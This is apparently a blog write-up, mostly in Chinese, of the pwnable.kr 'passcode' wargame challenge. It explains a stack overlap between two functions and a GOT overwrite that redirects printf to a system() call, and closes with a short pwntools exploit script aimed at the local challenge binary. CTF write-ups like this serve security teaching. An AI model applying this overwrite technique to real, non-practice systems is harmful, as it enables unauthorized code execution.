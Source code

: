 ```yaml
---
layout:     post
title:      pwnable passcode
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>http://pwnable.kr/  
>  
>Problem Description:  
>Mommy told me to make a passcode based login system.  
>My initial C code was compiled without any error!  
>Well, there was some compiler warning, but who cares about that?  
>  
>Address:  
>ssh passcode@pwnable.kr -p2222 (pw:guest)  
<!-- more -->


### 0x00 disassembly

if passcode1 = 338150 & passcode2 = 13371337, getshell～

![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x00.png)

开了GS

![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x01.png)

考虑到 welcome、login 的ebp相同, 利用 welcome 的name来溢出

![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x02.png)

查看 name、passcode1、passcode2 在栈中的位置

```
$ objdump -d ./passcode
```

![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x03.png)
![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x04.png)

name 距离 passcode1 0x70 - 0x10 = 0x60 bytes, 溢出完由于GS造成崩溃, 不能利用login来getshell

```
$ objdump -R ./passcode
```

![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x05.png)

现在可以实现任意写, 将 printf@got 改写成 call system 处的地址

![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x06.png)


### 0x01 exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

printf_addr = 0x0804a000
system_addr = 134514147

Io = process('./passcode')
payload = 'A'*0x60 + p32(printf_addr) + '\n' + str(system_addr) + '\n'
Io.send(payload)
Io.recv()
```

getflag~

![](/assets/img/writeup/pwn/2017-08-26-pwnable-passcode/0x07.png)